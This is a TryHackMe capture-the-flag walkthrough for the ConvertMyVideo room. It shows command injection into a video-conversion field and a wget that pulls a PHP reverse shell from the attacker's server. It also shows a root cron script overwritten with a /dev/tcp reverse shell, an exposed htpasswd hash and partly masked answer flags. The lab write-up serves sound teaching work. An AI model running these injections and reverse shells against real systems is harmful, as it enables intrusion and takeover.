









# Course Capstone - ConvertMyVideo

Here is the walkthrough for the TryHackMe room [ConvertMyVideo](https://tryhackme.com/room/convertmyvideo).

## Initial Enumeration
First I ran an Nmap scan against the host to see what services are running:



Since there's a web server running on port 80, let's investigate this.


I also ran **dirb** against the site to discover subdirectories:



The **/admin** subdirectory prompts us to enter credentials. This must be the secret folder.



## Gaining a Foothold

The site accepts a string which is then used as a YouTube video ID to convert the video to .mp3 format. We can use **Burp Suite** to manipulate what we send to the server.

Start by entering a string to see what happens: 123456789



Now we pivot to entering unexpected input, removing the YouTube URL entirely and entering linux commands.



We recieve an interesting error that provides us details on what is running on the backend:
```
{"status":1,"errors":"WARNING: Assuming --restrict-filenames since file system encoding 
cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR:
u'ls' is not a valid URL. Set --default-search \"ytsearch\" (or run  youtube-dl 
\"ytsearch:ls\" ) to search YouTube\n","url_orginal":"ls","output":"","result_url":"\/
tmp\/downloads\/6a179c16c0f99.mp3"}
```

So we can tell from this that [ytsearch](https://github.com/SaphiraKai/ytsearch) and [youtube-dl](https://github.com/ytdl-org/youtube-dl) are running behind the scenes.

Entering the command **-h** as input gives us a response of the help manual of the tool youtube-dl. Now we've confirmed we can continue to inject commands into the **yt_url** field for exploiting this machine.



The general steps I followed to get user-level access on the machine are as follows:
* Create a PHP reverse shell file on my local machine and serve it on a python http server
* Inject a **wget** command into the vulnerable site to upload the reverse shell file
* Start a netcat listener on my local machine, waiting for an incoming connection
* Navigate to the malicious file on the vulnerable web server

I used the site [revshells](https://www.revshells.com/) to create a PHP PentestMonkey shell pointing back to my machine and spun up the web server using the command `python3 -m http.server [PORT]`

In Burp, I injected the command `wget${IFS}http://[LISTENING IP]:[LISTENING PORT]/[FILENAME]` into the yt_url field and got the following response:



Looking closer at the repsonse we can see that the file upload was successful as it contained:
```
Connecting to 192.168.235.218:8082... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 2589 (2.5K) [application\/octet-stream]\nSaving to: 'phpShell3.php'\n\n     0K ..                                                    100%
```

I started a netcat listener on my local machine using the command `nc -nlvp {LISTENING PORT}` then navigated to the shell file on the vulnerable machine: http://[MACHINE IP]/[FILENAME]

Now we have a shell!



The flag can be found in **/var/www/html/admin/flag.txt**

## Escalating Privileges

Looking around in the /var/www/html directory, there is a **tmp** folder that contains a file named **clean.sh** which is owned by our pwned user www-data. Perhaps this file is run as part of a cron job?

Reading the contents of **/etc/crontab** did not return any results... but we can use a tool called [pspy](https://github.com/dominicbreuker/pspy) to see if cron jobs are running on the machine.

Like before, we can use Burp to force the pspy tool to be uploaded to the vulnerable machine. Download pspy locally and edit the **yt_url** field to `wget${IFS}http://[LISTENING IP]:[LISTENING PORT]/pspy64` 

Pspy can now be found in the machine's **/var/www/html/** directory. Add the execution permission using `chmod u+x pspy64` and run the tool using `./pspy64`



It does appear that the script runs periodically as **root**. So now it's time to edit the contents of this file to gain root access.

Editing this file to containing yet another reverse shell to our machine:
`echo 'sh -i >& /dev/tcp/[LISTENING IP]/[LISTENING PORT] 0>&1' > clean.sh`

Be sure that a new netcat listener is running on the port specified, and wait for the root shell to appear.

The root flag is found in **/root/root.txt**.

### Remaining Question
Even after gaining root access on the machine, there is still one question we have not yet answered: **"What username is required to access the secret folder?"** The hint provided for this is *The folder is protected by Apache authentication.*

Here we need to know that Apache uses the **.htpasswd** file to store user credentials. Reading the contents of this file, we see a hash: 
`itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`

## Questions
1. What is the name of the secret folder?

**Answer: admin**

---

2. What username is required to access the secret folder?

**Answer: itsmeadmin**

---

3. What is the user flag?

**Answer: flag{0d8486a0c0c425\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}**

---

4. What is the root flag?

**Answer: flag{d9b368018e912b\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}**
